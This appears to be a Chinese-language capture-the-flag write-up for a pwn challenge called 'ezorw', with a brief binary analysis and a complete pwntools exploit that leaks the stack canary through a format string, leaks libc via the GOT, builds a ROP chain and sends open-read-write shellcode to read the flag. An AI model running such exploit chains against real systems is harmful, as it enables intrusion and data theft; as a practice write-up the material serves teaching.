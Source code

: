 # W3 orw rop

## 文件分析

下载`ezorw`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

程序存在一片区域rwx，并且禁用了system，那么只要将shellcode写到那片区域，
再执行就可以了

那么没有gadgets怎么办？libc里应有尽有，只要知道了libcBase就可以拿到

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
sh = remote('node4.buuoj.cn', 28119)

# payload 1
sh.sendline(b'%11$p') # get canary
sh.recvline(b'x\n') # skip
canary = int(sh.recvline()[:18], 16)

elf = ELF('ezorw')
putsGot = elf.got['puts']
main = elf.symbols['main']

# payload 2, notice seccomp requires a balanced stack; place putsGot on stack
retAddr = 0x4013b2
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(retAddr) + p64(main) + p64(putsGot))

# payload 3, get puts@got
sh.sendlineafter(b'x\n', b'%13$s')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')

libcBase = putsGotAddr - 0x80ed0
popRsi = libcBase + 0x2be51
popRdxRbx = libcBase + 0x90529 # some gadgets in libc
readPlt = elf.plt['read']

# payload 4, make a read call to read shellcode to 0x66660000
sh.sendlineafter(b'now', b'0'*0x28 + p64(canary) + b'0'*8 + p64(popRsi) + p64(0x66660000) + p64(popRdxRbx) + p64(0x100) + p64(0) + p64(readPlt) + p64(0x66660000))

# payload 5, create orw shellcode
shc = asm(shellcraft.open('./flag') + shellcraft.read('rax', 'rsp', 0x100) + shellcraft.write(1, 'rsp', 0x100))
sh.sendline(shc)

sh.interactive()
```

Done.
